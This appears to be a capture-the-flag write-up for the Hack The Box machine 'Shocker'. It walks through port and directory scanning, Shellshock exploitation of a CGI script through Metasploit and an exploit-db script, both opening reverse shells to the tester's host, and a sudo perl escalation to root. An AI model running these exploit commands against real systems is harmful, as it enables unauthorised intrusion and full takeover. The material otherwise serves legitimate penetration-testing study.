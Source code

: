 # Shocker-HTB
Shocker is a Linux machine that is rated as easy, we can get a shell by using Metasploit or by using a exploit-db exploit

# Recon
I started by runing nmap scan on the machine.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV  10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-25 22:00 EDT
Nmap scan report for 10.10.10.56
Host is up (0.045s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.76 seconds
```
## ffuf
I will be using ffuf to fuze web directories.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w /usr/share/wordlists/wfuzz/general/big.txt -u http://10.10.10.56/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/wfuzz/general/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]
:: Progress: [3024/3024] :: Job [1/1] :: 1512 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
So we need to fuzz more inside ```cgi-bin```. After a long time of fuzzing I was able to find the file:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w big.txt -u http://10.10.10.56/cgi-bin/FUZZ.sh          

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/cgi-bin/FUZZ.sh
 :: Wordlist         : FUZZ: big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

user                    [Status: 200, Size: 119, Words: 19, Lines: 8]
:: Progress: [3025/3025] :: Job [1/1] :: 1512 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
So there is a file called ```user.sh```. At this point there is 2 ways to get a shell, by using Metasploit or by using a exploit-db exploit.

## Metasploit
Module: ```exploit/multi/http/apache_mod_cgi_bash_env_exec```

Proof:
```
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options 

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI                        yes       Path to CGI script
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.28      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 10.10.10.56
RHOSTS => 10.10.10.56
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/user.sh
TARGETURI => /cgi-bin/user.sh
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.28:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (980808 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.28:4444 -> 10.10.10.56:59904) at 2020-08-25 22:21:01 -0400

meterpreter > getuid 
Server username: no-user @ Shocker (uid=1000, gid=1000, euid=1000, egid=1000)
```
## Exploit-db
Exploitation: https://www.exploit-db.com/exploits/34900

```
┌──(kali㉿kali)-[~/Desktop/HTB/Shocker]
└─$ python shellshock.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.28 lport=5555 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) 
```

# User Flag
Get the User flag:
```
10.10.10.56> cat user.txt
2ec24e11...3e16695b233
```

# Root Flag
By runing ```sudo -l``` we can see that we can run ```perl``` with sudo.
```
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
To get a root shell you just need to run this command ```sudo /usr/bin/perl -e 'exec "/bin/sh"' ```
```
10.10.10.56> sudo /usr/bin/perl -e 'exec "/bin/sh"'
10.10.10.56> id
uid=0(root) gid=0(root) groups=0(root)
```
And we can get root flag :)
```
10.10.10.56> cat root.txt
52c271560...60dc1ca467
```

Note: you can find more like this command ```sudo /usr/bin/perl -e 'exec "/bin/sh"' ``` from https://gtfobins.github.io/

Thank you for reading, and you can find me here on twitter: https://twitter.com/electronicbots
